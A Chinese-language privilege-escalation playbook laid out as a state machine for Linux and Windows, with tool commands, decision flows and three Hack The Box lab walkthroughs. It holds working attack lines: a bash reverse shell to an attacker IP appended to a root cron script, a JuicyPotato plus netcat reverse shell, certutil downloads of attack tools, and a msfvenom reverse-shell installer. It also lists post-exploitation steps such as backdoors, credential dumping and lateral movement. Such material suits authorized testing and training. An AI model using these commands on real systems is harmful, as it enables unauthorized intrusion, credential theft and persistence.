


# 权限提升状态机 (Privilege Escalation State Machine)

## 概述

权限提升是渗透测试中的关键阶段，目标是从低权限用户提升到 root/SYSTEM 权限。本状态机覆盖 Linux 和 Windows 两大平台的提权路径。

---

## 原子工具状态映射

### 1. linpeas - Linux 自动化提权枚举

**能干什么**：
全自动扫描 Linux 系统的提权向量，包括 SUID 文件、sudo 配置、内核漏洞、定时任务、环境变量等 200+ 检查项。

**触发状态**：
- 获得 Linux 低权限 shell
- 需要快速发现提权路径
- 手动枚举效率低

**核心参数**：
```bash
# 基础扫描（推荐）
./linpeas.sh

# 详细输出（包含所有检查）
./linpeas.sh -a

# 只检查特定类别
./linpeas.sh -o system_information,users_information

# 输出到文件（避免终端刷屏）
./linpeas.sh | tee linpeas_output.txt
```

**实战直觉**：
- 红色/黄色高亮的项目优先关注，这些是最可能的提权路径
- 95% PE 向量（高危）：SUID 二进制、sudo 配置错误、可写服务文件
- 看到 `[+] [CVE-xxxx]` 说明内核版本存在已知漏洞
- 输出太长？用 `grep -i "95%\|password\|sudo"` 过滤关键信息

**状态转移**：
```
输出包含 SUID 可疑文件 → 手动验证 SUID 提权
输出包含 sudo 配置错误 → 尝试 sudo 提权
输出包含内核漏洞 CVE → 搜索对应 exploit
输出包含可写 cron/systemd → 利用定时任务提权
输出包含明文密码 → 尝试切换用户或 SSH
```

---

### 2. winpeas - Windows 自动化提权枚举

**能干什么**：
Windows 版本的 linpeas，扫描注册表、服务配置、计划任务、UAC 设置、补丁级别等提权向量。

**触发状态**：
- 获得 Windows 低权限 shell
- 需要快速发现 Windows 提权路径
- 不熟悉 Windows 手动枚举

**核心参数**：
```powershell
# 基础扫描
.\winPEASany.exe

# 详细扫描（包含所有检查）
.\winPEASany.exe -a

# 安静模式（只显示发现的问题）
.\winPEASany.exe quiet

# 输出到文件
.\winPEASany.exe > winpeas_output.txt
```

**实战直觉**：
- 红色高亮的项目是最危险的配置错误，优先利用
- 常见向量：Unquoted Service Path、AlwaysInstallElevated、SeImpersonatePrivilege
- 看到 `[!] CVE-xxxx` 说明系统缺少关键补丁
- 输出太长？搜索 "Modifiable Services" 和 "Unquoted Service Paths"

**状态转移**：
```
输出包含 Unquoted Service Path → 利用服务路径提权
输出包含 AlwaysInstallElevated → MSI 安装包提权
输出包含 SeImpersonate 权限 → Potato 系列提权
输出包含可修改服务 → 替换服务二进制提权
输出包含内核漏洞 → 搜索对应 exploit
```

---

### 3. unix-privesc-check - Linux 提权检查脚本

**能干什么**：
轻量级的 Linux 提权检查工具，比 linpeas 更简洁，适合快速检查。

**触发状态**：
- linpeas 输出太多信息难以分析
- 需要快速检查特定配置
- 目标系统资源有限

**核心参数**：
```bash
# 标准模式
./unix-privesc-check standard

# 详细模式
./unix-privesc-check detailed

# 只检查特定类别
./unix-privesc-check standard | grep -i "warning\|vulnerable"
```

**实战直觉**：
- 输出比 linpeas 简洁，适合快速扫描
- WARNING 级别的项目需要重点关注
- 适合作为 linpeas 的补充工具

**状态转移**：
```
发现 WARNING 级别问题 → 手动验证并利用
未发现明显问题 → 使用 linpeas 深度扫描
```

---

### 4. linux-exploit-suggester - Linux 内核漏洞建议

**能干什么**：
根据内核版本和系统信息，推荐可能适用的本地提权 exploit。

**触发状态**：
- linpeas/winpeas 发现内核漏洞 CVE
- 需要快速找到对应的 exploit
- 手动搜索 exploit 效率低

**核心参数**：
```bash
# 基础扫描
./linux-exploit-suggester.sh

# 指定内核版本
./linux-exploit-suggester.sh -k 4.4.0

# 只显示高可能性的 exploit
./linux-exploit-suggester.sh | grep -i "highly probable"
```

**实战直觉**：
- "Highly probable" 的 exploit 成功率最高
- 优先尝试 DirtyCow、Overlayfs、DCCP 等经典漏洞
- 注意内核版本匹配，版本不对会导致系统崩溃

**状态转移**：
```
发现 Highly probable exploit → 下载并编译 exploit
发现 Probable exploit → 谨慎测试（可能崩溃）
未发现可用 exploit → 转向配置错误提权
```

---

### 5. windows-exploit-suggester - Windows 补丁分析

**能干什么**：
分析 Windows 系统的补丁安装情况，推荐可能适用的本地提权 exploit。

**触发状态**：
- 获得 Windows 系统信息
- 需要找到未打补丁的漏洞
- winpeas 发现缺少关键补丁

**核心参数**：
```bash
# 更新漏洞数据库
./windows-exploit-suggester.py --update

# 分析 systeminfo 输出
systeminfo > systeminfo.txt
./windows-exploit-suggester.py --database 2024-03-22-mssb.xls --systeminfo systeminfo.txt

# 只显示高危漏洞
./windows-exploit-suggester.py -d 2024-03-22-mssb.xls -i systeminfo.txt | grep -i "critical\|important"
```

**实战直觉**：
- 优先关注 MS16-032、MS16-135、MS17-010 等经典提权漏洞
- Critical 和 Important 级别的漏洞优先测试
- 注意系统架构（x86 vs x64）

**状态转移**：
```
发现未打补丁的提权漏洞 → 下载对应 exploit
发现 MS17-010 → 可能横向移动（EternalBlue）
未发现可用漏洞 → 转向配置错误提权
```

---

### 6. pspy - Linux 进程监控（无 root）

**能干什么**：
无需 root 权限监控系统进程和定时任务，发现以 root 权限运行的脚本或命令。

**触发状态**：
- linpeas 发现可疑的 cron 任务
- 需要监控 root 用户的操作
- 怀疑有定时任务可以劫持

**核心参数**：
```bash
# 基础监控
./pspy64

# 详细输出（包含文件系统事件）
./pspy64 -pf

# 只显示 UID 0（root）的进程
./pspy64 | grep "UID=0"
```

**实战直觉**：
- 运行 1-5 分钟，观察周期性执行的命令
- 关注 UID=0 且路径可写的脚本
- 看到 `/tmp` 或 `/dev/shm` 中的脚本？可能可以劫持

**状态转移**：
```
发现 root 执行可写脚本 → 修改脚本植入反弹 shell
发现 root 执行带参数的命令 → 尝试命令注入
发现定时任务调用相对路径 → PATH 劫持提权
```

---

### 7. GTFOBins / LOLBAS - 二进制利用数据库

**能干什么**：
查询系统自带二进制文件的提权、文件读写、反弹 shell 等利用方法。

**触发状态**：
- 发现 SUID 二进制文件
- 拥有特定命令的 sudo 权限
- 需要绕过受限 shell

**核心参数**：
```bash
# GTFOBins（Linux）
# 访问 https://gtfobins.github.io/
# 搜索二进制名称（如 vim, find, python）

# LOLBAS（Windows）
# 访问 https://lolbas-project.github.io/
# 搜索二进制名称（如 certutil, mshta, regsvr32）
```

**实战直觉**：
- 发现 SUID 的 vim/nano/find？直接提权
- 有 sudo 权限的 python/perl/ruby？一行命令拿 root
- Windows 上的 certutil/bitsadmin？可以下载文件

**状态转移**：
```
发现 SUID + GTFOBins 有利用方法 → 直接提权
发现 sudo 权限 + GTFOBins 有方法 → 执行提权命令
未找到利用方法 → 继续枚举其他向量
```

---

## 聚类攻击状态机

### Linux 提权决策流程

```
获得 Linux 低权限 shell
    ↓
上传并运行 linpeas.sh
    ↓
IF 发现 SUID 可疑文件:
    THEN 查询 GTFOBins
        IF GTFOBins 有利用方法:
            THEN 执行 SUID 提权 → 获得 root
        ELSE:
            THEN 手动分析二进制 → 寻找漏洞
    
ELSE IF 发现 sudo 配置错误:
    THEN 执行 sudo -l 查看权限
        IF 可以 sudo 执行危险命令:
            THEN 查询 GTFOBins → 执行提权
        ELSE IF sudo 版本 < 1.8.28:
            THEN 尝试 CVE-2019-14287 绕过
    
ELSE IF 发现内核漏洞 CVE:
    THEN 运行 linux-exploit-suggester
        IF 发现 Highly probable exploit:
            THEN 下载并编译 exploit → 执行提权
        ELSE:
            THEN 谨慎测试（可能崩溃系统）
    
ELSE IF 发现可写 cron/systemd 文件:
    THEN 修改定时任务植入反弹 shell
        等待定时任务执行 → 获得 root shell
    
ELSE IF 发现可写 PATH 目录:
    THEN 运行 pspy 监控 root 进程
        IF 发现 root 执行相对路径命令:
            THEN PATH 劫持提权 → 获得 root
    
ELSE:
    THEN 手动枚举:
        - 检查 /etc/passwd 可写性
        - 检查 Docker/LXC 容器逃逸
        - 检查 NFS no_root_squash
        - 检查 LD_PRELOAD 劫持
```

---

### Windows 提权决策流程

```
获得 Windows 低权限 shell
    ↓
上传并运行 winPEAS.exe
    ↓
IF 发现 Unquoted Service Path:
    THEN 检查路径可写性
        IF 路径可写:
            THEN 上传恶意 exe → 重启服务 → 获得 SYSTEM
    
ELSE IF 发现 AlwaysInstallElevated = 1:
    THEN 生成恶意 MSI 安装包
        msfvenom -p windows/x64/shell_reverse_tcp -f msi
        执行 msiexec /i evil.msi → 获得 SYSTEM
    
ELSE IF 发现 SeImpersonatePrivilege 权限:
    THEN 判断系统版本
        IF Windows Server 2016/2019:
            THEN 使用 JuicyPotato/RoguePotato
        ELSE IF Windows 10/11:
            THEN 使用 PrintSpoofer/GodPotato
        执行 Potato exploit → 获得 SYSTEM
    
ELSE IF 发现可修改服务:
    THEN 替换服务二进制为反弹 shell
        sc config <service> binPath= "C:\evil.exe"
        sc start <service> → 获得 SYSTEM
    
ELSE IF 发现内核漏洞:
    THEN 运行 windows-exploit-suggester
        IF 发现 MS16-032/MS16-135:
            THEN 下载 PowerShell exploit → 执行提权
    
ELSE IF 发现明文密码/凭据:
    THEN 尝试切换用户
        runas /user:Administrator cmd
        或使用 PSExec 横向移动
    
ELSE:
    THEN 手动枚举:
        - 检查注册表 AutoRun 键
        - 检查计划任务可写性
        - 检查 DLL 劫持机会
        - 检查 UAC 绕过方法
```

---

## 场景决策链路

### 场景 1：HTB 靶机 Linux SUID 提权

**初始状态**：
- 目标：HTB 靶机 "Lame"
- 已获得：www-data 低权限 shell
- 目标：提升到 root 权限

**状态机运行路径**：

1. **上传 linpeas**
```bash
# 攻击机
python3 -m http.server 8000

# 目标机
wget http://10.10.14.5:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh | tee linpeas_output.txt
```

2. **分析输出**
```
[+] [95%] SUID - Check easy privesc, exploits and write perms
...
-rwsr-xr-x 1 root root 963691 May 13  2017 /usr/bin/nmap
```

**内化点**：看到 nmap 有 SUID 位，这是经典的提权向量。

3. **查询 GTFOBins**
```bash
# 访问 https://gtfobins.github.io/gtfobins/nmap/
# 发现 nmap 交互模式可以执行 shell 命令
```

4. **执行提权**
```bash
nmap --interactive
nmap> !sh
# id
uid=0(root) gid=0(root) groups=0(root)
```

**结果**：成功提权到 root

**内化点**：
- SUID 二进制 + GTFOBins = 最快的提权路径
- nmap 旧版本（< 5.21）有交互模式，新版本已移除
- 为什么选择 nmap 而不是其他 SUID？因为 GTFOBins 有明确的利用方法

---

### 场景 2：HTB 靶机 Windows SeImpersonate 提权

**初始状态**：
- 目标：HTB 靶机 "Bounty"
- 已获得：IIS APPPOOL\DefaultAppPool 低权限 shell
- 目标：提升到 SYSTEM 权限

**状态机运行路径**：

1. **上传 winPEAS**
```powershell
# 攻击机
python3 -m http.server 8000

# 目标机
certutil -urlcache -f http://10.10.14.5:8000/winPEAS.exe winpeas.exe
.\winpeas.exe
```

2. **分析输出**
```
[+] Current Token privileges
    SeImpersonatePrivilege: ENABLED
```

**内化点**：IIS/SQL Server 服务账户通常有 SeImpersonate 权限，这是 Potato 系列提权的前提。

3. **选择 Potato 工具**
```powershell
# 检查系统版本
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
# OS Name: Microsoft Windows Server 2008 R2
# OS Version: 6.1.7600 N/A Build 7600
```

**内化点**：Windows Server 2008 R2 适合用 JuicyPotato。

4. **执行提权**
```powershell
# 上传 JuicyPotato.exe 和 nc.exe
certutil -urlcache -f http://10.10.14.5:8000/JuicyPotato.exe jp.exe
certutil -urlcache -f http://10.10.14.5:8000/nc.exe nc.exe

# 执行提权
.\jp.exe -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\temp\nc.exe -e cmd.exe 10.10.14.5 4444" -t *

# 攻击机监听
nc -lvnp 4444
```

**结果**：获得 SYSTEM 权限的反弹 shell

**内化点**：
- SeImpersonate 权限 = Potato 系列提权的入场券
- 不同 Windows 版本需要不同的 Potato 工具
- 为什么不用内核漏洞？因为 Potato 提权更稳定，不会崩溃系统

---

### 场景 3：HTB 靶机 Linux Cron 任务劫持

**初始状态**：
- 目标：HTB 靶机 "Cronos"
- 已获得：www-data 低权限 shell
- 目标：提升到 root 权限

**状态机运行路径**：

1. **上传 linpeas**
```bash
wget http://10.10.14.5:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

2. **分析输出**
```
[+] Cron jobs
...
* * * * * root php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

**内化点**：发现 root 每分钟执行 artisan 脚本。

3. **检查文件权限**
```bash
ls -la /var/www/laravel/artisan
-rwxr-xr-x 1 www-data www-data 1646 Apr  9  2017 /var/www/laravel/artisan
```

**内化点**：artisan 文件属于 www-data，可以修改！

4. **修改脚本植入反弹 shell**
```bash
echo '<?php system("bash -c '\''bash -i >& /dev/tcp/10.10.14.5/4444 0>&1'\''"); ?>' >> /var/www/laravel/artisan

# 攻击机监听
nc -lvnp 4444
```

5. **等待 cron 执行**
```
# 1 分钟后...
Connection from 10.10.10.13:54321
# id
uid=0(root) gid=0(root) groups=0(root)
```

**结果**：成功提权到 root

**内化点**：
- Cron 任务 + 可写脚本 = 稳定的提权路径
- 为什么不用 SUID？因为没有发现可利用的 SUID 二进制
- pspy 可以帮助发现隐藏的 cron 任务

---

## 思维判定流程图

### Linux 提权决策流程图



---

### Windows 提权决策流程图



---

## 工具选择决策表

| 场景 | 首选工具 | 备选工具 | 选择理由 |
|------|---------|---------|---------|
| **Linux 自动枚举** | linpeas | unix-privesc-check | linpeas 覆盖面最广 |
| **Windows 自动枚举** | winPEAS | PowerUp.ps1 | winPEAS 输出更直观 |
| **Linux 内核漏洞** | linux-exploit-suggester | searchsploit | 自动匹配内核版本 |
| **Windows 补丁分析** | windows-exploit-suggester | Watson | 分析 systeminfo 输出 |
| **进程监控** | pspy | watch + ps | 无需 root 权限 |
| **SUID 利用** | GTFOBins | 手动分析 | 有现成的利用方法 |
| **Windows 服务提权** | winPEAS | PowerUp | 自动发现配置错误 |
| **Potato 提权** | JuicyPotato | PrintSpoofer | 根据系统版本选择 |

---

## 常见提权向量速查

### Linux 提权向量

| 向量 | 检测方法 | 利用工具 | 成功率 |
|------|---------|---------|--------|
| SUID 二进制 | `find / -perm -4000 2>/dev/null` | GTFOBins | ⭐⭐⭐⭐⭐ |
| sudo 配置错误 | `sudo -l` | GTFOBins | ⭐⭐⭐⭐⭐ |
| 可写 cron | linpeas | 手动修改 | ⭐⭐⭐⭐ |
| 内核漏洞 | linux-exploit-suggester | exploit-db | ⭐⭐⭐ |
| PATH 劫持 | pspy | 手动劫持 | ⭐⭐⭐ |
| NFS no_root_squash | `cat /etc/exports` | 手动挂载 | ⭐⭐⭐ |
| Docker 逃逸 | `cat /proc/1/cgroup` | 多种方法 | ⭐⭐⭐⭐ |

### Windows 提权向量

| 向量 | 检测方法 | 利用工具 | 成功率 |
|------|---------|---------|--------|
| SeImpersonate 权限 | `whoami /priv` | JuicyPotato | ⭐⭐⭐⭐⭐ |
| Unquoted Service Path | winPEAS | 手动利用 | ⭐⭐⭐⭐ |
| AlwaysInstallElevated | winPEAS | msfvenom | ⭐⭐⭐⭐⭐ |
| 可修改服务 | winPEAS | sc config | ⭐⭐⭐⭐ |
| 内核漏洞 | windows-exploit-suggester | exploit-db | ⭐⭐⭐ |
| 计划任务劫持 | winPEAS | 手动修改 | ⭐⭐⭐ |
| DLL 劫持 | Process Monitor | 手动利用 | ⭐⭐⭐ |

---

## 提权后的下一步

```
获得 root/SYSTEM 权限
    ↓
    ├─ Linux:
    │   ├─ 添加持久化后门（SSH 密钥、cron 任务）
    │   ├─ 提取凭据（/etc/shadow、SSH 私钥）
    │   ├─ 查找敏感文件（数据库配置、API 密钥）
    │   └─ 横向移动（SSH 到其他主机）
    │
    └─ Windows:
        ├─ 添加持久化后门（新用户、计划任务）
        ├─ 提取凭据（mimikatz、secretsdump）
        ├─ 查找敏感文件（浏览器密码、配置文件）
        └─ 横向移动（PSExec、WMI、RDP）
```

---

*文档生成时间：2026-03-22*
*状态机类型：权限提升*
*覆盖平台：Linux + Windows*
